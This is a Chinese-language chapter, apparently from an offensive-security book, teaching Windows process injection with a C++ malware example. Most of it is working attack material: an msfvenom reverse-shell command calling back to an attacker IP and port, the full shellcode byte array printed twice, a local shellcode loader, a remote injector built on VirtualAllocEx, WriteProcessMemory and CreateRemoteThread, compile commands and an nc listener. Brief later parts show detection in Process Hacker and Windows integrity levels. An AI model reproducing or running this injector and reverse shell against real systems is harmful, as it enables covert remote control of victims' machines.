\newpage
\subsection{经典代码注入：简单的 C++ 恶意软件}

﷽

{width="75%"}

我们来谈谈代码注入。什么是代码注入？我们为什么要这么做？

代码注入技术是一种简单的方法：一个进程（在我们的例子中就是恶意软件）把代码注入到另一个正在运行的进程中。

举个例子，你有一个恶意软件，它可能是钓鱼攻击中的投放器，也可能是你设法投递到受害者机器上的木马，或者任何能够运行你代码的东西。出于某些原因，你可能希望在一个不同的进程中运行你的载荷。这是什么意思呢？本文不讨论木马的制作，但假设你的载荷在 word.exe 中执行，而 word.exe 的存活时间有限。假设你成功获得了一个远程 shell，但你知道受害者会关闭 word.exe，那么在这种情况下，如果你想保住会话，就必须迁移到另一个进程。

本文将讨论一种经典技术：使用调试 API 进行载荷注入。

首先，我们来准备载荷。为简单起见，我们使用 Kali Linux 中 msfvenom 的反向 shell 载荷。

在攻击者机器上运行：

```bash
msfvenom -p windows/x64/shell_reverse_tcp 
LHOST=10.9.1.6 LPORT=4444 -f c
```

其中 10.9.1.6 是攻击者机器的 IP 地址，4444 是我们稍后运行监听器时使用的端口。

{width="75%"}

我们从恶意软件的简单 C++ 代码开始：

```cpp
/*
cpp implementation malware example with msfvenom payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload: reverse shell (msfvenom)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, 
  my_payload_len, MEM_COMMIT | MEM_RESERVE, 
  PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, 
  my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

  // run payload
  th = CreateThread(0, 0, 
  (LPTHREAD_START_ROUTINE)my_payload_mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
  }
  return 0;

```

如果你看不懂很多代码，没关系。我会经常使用类似的技巧和代码片段。随着阅读本书，你会越来越理解这些概念和基础知识。

我们先来验证一下。

编译：

```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++
-static-libgcc
```

{width="75%"}

准备监听器：

```bash
nc -lvp 4444
```

然后在受害者机器上运行：

```cmd
.\evil.exe
```

{width="75%"}

如你所见，一切正常。

为了调查 evil.exe，我们将使用 Process Hacker。Process Hacker 是一个开源工具，可以让你查看设备上正在运行的进程、找出占用 CPU 资源的程序，以及识别与某个进程关联的网络连接。

{width="75%"}

然后在 Network（网络）标签页中，我们会看到我们的进程与 10.9.1.6:4444（攻击者主机）建立了连接。

{width="75%"}

那么，我们开始把载荷注入到进程中。例如 calc.exe。你想要做的是转向（pivot）到一个目标进程，换句话说，就是让你的载荷以某种方式在同一台机器的另一个进程中执行，例如在 calc.exe 中。

{width="75%"}

第一件事是在目标进程内部申请一些内存，缓冲区的大小至少要等于载荷的大小：

{width="75%"}

然后你把载荷复制到 calc.exe 目标进程已分配的内存中：

{width="75%"}

接着"请求"系统在目标进程（也就是 calc.exe）中开始执行你的载荷。

{width="75%"}

那么，我们来编写这段简单的逻辑。目前最流行的做法是使用 Windows 内置的 API 函数，这些函数原本是为调试目的而实现的。它们是：

VirtualAllocEx

WriteProcessMemory

CreateRemoteThread

最基本的示例如下：

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;

```

首先你需要获取进程的 PID，在我们的例子中你可以自己输入这个 PID。接着，用 Kernel32 库提供的 OpenProcess 函数打开该进程：

{width="75%"}

接下来，我们使用 VirtualAllocEx，它允许你为远程进程分配内存缓冲区（1）：

{width="75%"}

然后，`WriteProcessMemory` 允许你在进程之间复制数据，因此可以把我们的载荷复制到 `calc.exe` 进程中（2）。而 `CreateRemoteThread` 与 `CreateThread` 函数类似，但在这个函数中你可以指定由哪个进程来启动新线程（3）。

我们来编译这段代码：

```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc
```

{width="75%"}

准备监听器：

```bash
nc -lvp 4444
```

在受害者机器上，首先执行 calc.exe：

{width="75%"}

可以看到 calc.exe 的进程 ID 是 1844。

然后从受害者机器上运行我们的注入器：

```cmd
.\evil2.exe 1844
```

{width="75%"}

首先我们可以看到 calc.exe 的 ID 没有变化，而我们的 evil2.exe 创建了新的 cmd.exe 进程，并且在 Network 标签页中我们的载荷已经执行（因为 calc.exe 与攻击者主机建立了连接）：

{width="75%"}

接着，我们来调查 calc.exe 进程。进入 Memory（内存）标签页，可以查找我们分配的内存缓冲区。

{width="75%"}

因为如果你看一下源代码，我们是在远程进程中分配了一块可执行且可读的内存缓冲区：

{width="75%"}

所以在 Process Hacker 中，我们可以按 Protection（保护属性）排序并向下滚动，找到同时可读且可执行的区域：

{width="75%"}

可以看到 calc.exe 的内存中有很多这样的区域。

但请注意，calc.exe 加载了 ws2_32.dll 模块，这在正常情况下绝不应该发生，因为该模块负责套接字管理：

{width="75%"}

以上就是把代码注入到另一个进程的方法。

但这里有个注意事项。以写权限打开另一个进程会受到限制。其中一种保护机制是强制完整性控制（Mandatory Integrity Control，MIC）。MIC 是一种基于对象的"完整性级别"（Integrity level）来控制访问的保护方法。

共有 4 个完整性级别：

低级别（low level）——被限制访问系统大部分内容的进程（如 Internet Explorer）

中级别（medium level）——非特权用户启动的任何进程的默认级别；如果启用了 UAC，管理员用户启动的进程也是此级别

高级别（high level）——以管理员权限运行的进程

系统级别（system level）——由 SYSTEM 用户运行，通常是系统服务和需要最高保护级别的进程

目前我们不会深入探讨这一点。首先我会自己试着弄清楚。

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)  
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)  
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)  
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)

源代码见 GitHub。
